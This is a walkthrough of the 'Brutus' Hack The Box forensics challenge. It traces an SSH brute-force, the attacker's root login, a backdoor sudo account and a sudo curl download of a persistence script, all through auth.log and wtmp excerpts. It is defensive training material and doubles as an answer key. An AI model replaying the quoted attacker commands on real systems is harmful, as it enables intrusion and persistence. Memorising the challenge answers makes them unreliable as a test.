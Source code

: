 ```yaml
---
title: "Brutus"
date: 2025-07-31 22:45:00 +0500
categories: [Sherlocks]
tags: [HTB, Sherlock, Very Easy]
---
```


## Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

After downloading the files we can see:

```bash
ls -la
total 68
drwxrwxr-x 2 kali kali  4096 Jul 31 22:56 .
drwxrwxr-x 3 kali kali  4096 Jul 31 22:47 ..
-rw-rw-r-- 1 kali kali 43911 Mar  6  2024 auth.log
-rw-r--r-- 1 kali kali  3154 Apr 30 13:51 utmp.py
-rw-rw-r-- 1 kali kali 11136 Mar  6  2024 wtmp
```

### Solving the questions

- Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

We will go through the `auth.log` file and figure out which IP had the highest request in the shortest time.

It's fairly easy to spot the abnormal requests:

```bash
Mar  6 06:31:31 ip-172-31-35-28 sshd[2330]: Invalid user admin from 65.2.161.68 port 46422
Mar  6 06:31:31 ip-172-31-35-28 sshd[2337]: Invalid user admin from 65.2.161.68 port 46498
Mar  6 06:31:31 ip-172-31-35-28 sshd[2328]: Invalid user admin from 65.2.161.68 port 46390
Mar  6 06:31:31 ip-172-31-35-28 sshd[2335]: Invalid user admin from 65.2.161.68 port 46460
```

- The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

We will go through the log file manually (or we could actually create a script):

```bash
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
```

- Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

```bash
python3 utmp.py wtmp

"USER"  "2549"  "pts/1" "ts/1"  "root"  "65.2.161.68"   "0"     "0"     "0"     "2024/03/06 11:32:45"   "387923"        "65.2.161.68"
```

Since my system is in GMT+5 the time that is shown has to be subtracted from 5 hours. `2024-03-06 06:32:45`

- SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

Going back to auth.log:

```bash
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

`37` is the session number.

- The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

```bash
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
Mar  6 06:35:01 ip-172-31-35-28 CRON[2614]: pam_unix(cron:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:35:01 ip-172-31-35-28 CRON[2616]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
Mar  6 06:35:01 ip-172-31-35-28 CRON[2615]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
Mar  6 06:35:01 ip-172-31-35-28 CRON[2614]: pam_unix(cron:session): session closed for user root
Mar  6 06:35:01 ip-172-31-35-28 CRON[2616]: pam_unix(cron:session): session closed for user confluence
Mar  6 06:35:01 ip-172-31-35-28 CRON[2615]: pam_unix(cron:session): session closed for user confluence
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```

- What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

Go to the MITRE ATT&CK website and go through the persistence strategies. 

[Tactic](https://attack.mitre.org/techniques/T1136/001)

T1136.001

- What time did the attacker's first SSH session end according to auth.log?

```bash
"DEAD"  "2491"  "pts/1" ""      ""      ""      "0"     "0"     "0"     "2024/03/06 11:37:24"   "590579"        "0.0.0.0"
```

Subtract again: `2024-03-06 06:37:24`

- The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

```bash
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

---
